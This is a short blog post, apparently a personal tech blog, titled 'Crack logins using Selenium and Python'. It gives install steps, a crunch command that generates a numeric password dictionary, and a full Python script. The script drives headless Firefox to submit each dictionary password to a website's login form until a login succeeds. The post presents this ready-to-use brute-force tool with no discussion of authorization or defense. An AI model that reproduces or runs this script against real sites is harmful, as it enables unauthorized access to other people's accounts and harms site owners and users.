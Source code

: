 ```yaml
---
title: "Crack logins using Selenium and Python"
date: 2020-10-23T14:58:50+08:00
draft: false
tags: ["Python","Selenium"]
categories: ["randomStuff"]
---
```


Using selenium and headless firefox to force crack the website's logins.
<!--more-->
### Dependencies
- [Python 3](https://www.python.org/downloads/)
- [Selenium](https://github.com/SeleniumHQ/selenium/)
- [Crunch](https://tools.kali.org/password-attacks/crunch)
- [geckodriver (Firefox)](https://github.com/mozilla/geckodriver/)

To install python, simply go to [Download the latest version of Python](https://www.python.org/downloads/) and download the corresponding installer. For Linux and Mac OS X, you could also use your package manager to install python:

```console
// Python3
//  For debian based systems
    apt update
    apt -y install python3 python3-pip

//  For Mac OS X users:
    brew install python

// Selenium
    pip3 install selenium

// Crunch
    brew install crunch
    or 
    apt -y install crunch
    for debian based systems

// To install geckodriver
// You could also use chromedriver if you prefer chrome over firefox
// Take Mac OS X as example, you will need to download right archive for your system

    wget https://github.com/mozilla/geckodriver/releases/download/v0.27.0/geckodriver-v0.27.0-macos.tar.gz

    tar -xf geckodriver-v0.27.0-macos.tar.gz -C /usr/local/bin/

    chmod +x /usr/local/bin/geckodriver

```

### Code
#### Generating a dictionary
```text
// Usage: crunch <min> <max> [options]
// For example, I'm generating a dictionary with a minimum password length of 6   
// and the maximum password length of 8, saving it to </path/to/your/dictionary>

crunch 6 8 1234567890 -o /path/to/your/dictionary

```

```python
#coding:utf-8
import selenium
import selenium.webdriver
import time
from selenium.webdriver.firefox.options import Options
from selenium.webdriver import Firefox

def  loginoa(username,password):
    options = Options()
    options.add_argument("--headless")
    # If you prefer a GUI firefox, remove the above line
    driver=selenium.webdriver.Firefox(options=options)
    
    # URL to the login page
    driver.get("link/to/your/login/page")
    time.sleep(2)

    # find the input field
    # you could also find those elements by name, class name, xpath, etc
    user_text=driver.find_element_by_id("session_login") 
    password_text=driver.find_element_by_id("session_password")
    time.sleep(1)
    
    # send username and password
    user_text.send_keys(username)
    password_text.send_keys(password)
    time.sleep(1)
    
    # find the login button
    # you could also find those elements by name, class name, xpath, etc
    login=driver.find_element_by_name("commit") 
    
    # simulate login
    login.click()
    time.sleep(4)

    # check whether successfully logined
    islogin=  driver.page_source.find(u"logout")!=-1
    return islogin

# your dictionary
passfile=open("/path/to/your/dictionary","r")

while True:
    passline=passfile.readline()
    if not passline:
        break
    passlist= passline.split(" # ")
    
    # change 'your username' to a legit username
    islogin=loginoa("your username",passlist[0])
    
    # if successfully logined, break
    print(passlist[0],"login",islogin)
    if  islogin:
        break
```


### Reference
[selenium暴力破解密码，正确密码终止程序](https://www.cnblogs.com/my-global/p/12460987.html)
